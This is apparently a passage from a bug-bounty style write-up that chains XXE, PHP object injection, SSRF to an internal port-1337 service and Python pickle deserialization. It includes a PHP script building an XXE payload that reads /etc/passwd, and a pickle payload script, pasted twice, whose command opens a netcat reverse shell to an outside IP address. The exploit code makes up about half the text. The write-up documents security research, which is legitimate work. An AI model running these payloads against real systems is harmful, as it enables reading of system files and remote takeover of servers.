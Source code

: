 ## Exploit for generating the serialised data : 
**Exploit.php**
```
<?php

class ConfigFile{
		public $config_raw = '<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><root>
	<toptext>&xxe;</toptext>
	<bottomtext>xd</bottomtext>
	<template></template>
	<type>text</type>
</root>';
	}

	echo base64_encode(serialize([new ConfigFile]));
?>
```

## Chaining XXE with PHP Object Injection and escalating:

So I have created an exploit which generates a serialised the data and encoded to base64.
{F352605}

{F352604}

So, now we have a Preety good XXE and I was not able to escalate it further. So, I used the http wrapper in XXE to find local service and i found one on port 1337. and the description of the application was 

**Meme Service - Internal Maintenance API - v0.1 (Alpha); API Documentation: Version 0.1 - Endpoints: /status - View maintenance status; /update-status Change maintenance status; Debug: The debug parameter allows debugging**


On `status?debug=1` gives us the debug data/token base64 encoded in the response. decoding it to the base64 gives us the **Python Pickle Data**. Also `update-status?status` expects the parameter **status** for where I have generated a pickle code to generate a payload to get the reverse shell.

**Exploit.py**

```
#!/usr/bin/env python
#payload.py
import pickle
import socket
import os
class payload(object):
    def __reduce__(self):
       comm = "rm /tmp/shell; mknod /tmp/shell p; nc 104.248.230.193 8008 0</tmp/shell | /bin/sh 1>/tmp/shell"
       return (os.system, (comm,))
payload = pickle.dumps( payload())

print payload.encode("base64")
#!/usr/bin/env python
#payload.py
import pickle
import socket
import os
class payload(object):
    def __reduce__(self):
       comm = "rm /tmp/shell; mknod /tmp/shell p; nc 111.111.111.111 8008 0</tmp/shell | /bin/sh 1>/tmp/shell"
       return (os.system, (comm,))
payload = pickle.dumps( payload())

```